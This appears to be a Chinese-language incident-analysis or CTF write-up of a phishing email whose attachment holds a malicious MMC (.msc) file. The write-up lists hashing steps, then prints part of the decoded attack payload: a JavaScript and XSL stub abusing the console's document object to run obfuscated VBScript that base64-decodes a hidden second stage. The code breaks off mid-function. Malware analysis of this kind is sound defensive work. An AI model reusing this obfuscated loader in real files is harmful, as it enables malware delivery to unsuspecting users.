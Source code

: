 (1)发件邮箱`alice@flycode.cn`，MD5(alice@flycode.cn)

![image-20241118090550825](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20241118090550825.png?imageSlim)

(2)附件导出，计算MD5

![image-20241118090733102](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20241118090733102.png?imageSlim)

(3)解压得到`msc`文件

![image-20241118090941964](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20241118090941964.png?imageSlim)

(4)97行

![image-20241118091116851](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20241118091116851.png?imageSlim)

(5)92行的代码丢进cyberchef，vbscript

![image-20241118091507031](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20241118091507031.png?imageSlim)

(6)第二部分攻击荷载代码

```
// Console Root
          var u=external.Document.Name;var v=""; var i=0;eval(decodeURIComponent("for (i=0;i<u.length;i++){h=u.charCodeAt(i).toString(16);v+=("000"+h).slice(-4);}"));var sN=external.Document.ScopeNamespace;var rN=sN.GetRoot();var mN=sN.GetChild(rN);var dN=sN.GetNext(mN);external.Document.ActiveView.ActiveScopeNode=dN;dO=external.Document.ActiveView.ControlObject;external.Document.ActiveView.ActiveScopeNode=mN;var XML=dO;XML.async=false;var xsl=XML;xsl.loadXML(unescape("<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
	<![CDATA[
Dim mscLL
mscLL="_MSC"
For i=1 to Len(mscLL) Step 4
oFmXCTg=oFmXCTg & ChrW(CLng("&"&Chr(72) & Mid(mscLL,i,4)))
Next
Set RTcxFmy=CreateObject(Chr(3440-3363)&Chr(105)&Chr(Int("99"))&"r"&Chr(Int("&H6f"))&Chr(&H73)&Chr(Int("111"))&Chr(102)&Chr(&H74)&Chr(46)&Chr(Int("88"))&Chr(77)&Chr(Int("&H4c"))&"D"&"O"&"M" )
RTcxFmy.Async=Chr(Int("&H46"))&Chr(Int("97"))&Chr(Int("108"))&"s"&Chr(Int("&H65"))
RTcxFmy.Load( oFmXCTg )
AJ8p
Function Xk7fbp8v(inp)
Dim q4XPbvoV
Dim HxWK
Set q4XPbvoV=CreateObject(Chr(&H4d)&"S"&Chr(Int("&H58"))&Chr(Int("77"))&Chr(247988/3263)&Chr(&H32)&Chr(Int("&H2e"))&Chr(Int("68"))&Chr(Int("&H4f"))&Chr(Int("&H4d"))&Chr(&H44)&Chr(2427-2316)&"c"&Chr(Int("&H75"))&Chr(&H6d)&Chr(101)&Chr(&H6e)&Chr(-1790+1906))
Set HxWK=q4XPbvoV.createElement(Chr(545-448))
HxWK.DataType=Chr(98)&Chr(Int("105"))&Chr(110)&Chr(Int("46"))&Chr(98)&Chr(97)&Chr(115)&Chr(Int("101"))&Chr(Int("&H36"))&Chr(6238-6186)
HxWK.Text=inp
Xk7fbp8v=HxWK.nodeTypedValue
End Function
Function AJ8p()
On Error Resume Next
Dim AgUvcCuHzzbl
Dim DfAV40y
Dim gwqhhV
Dim JJNe
Dim Mw7U
Dim O8B1OrkTW
```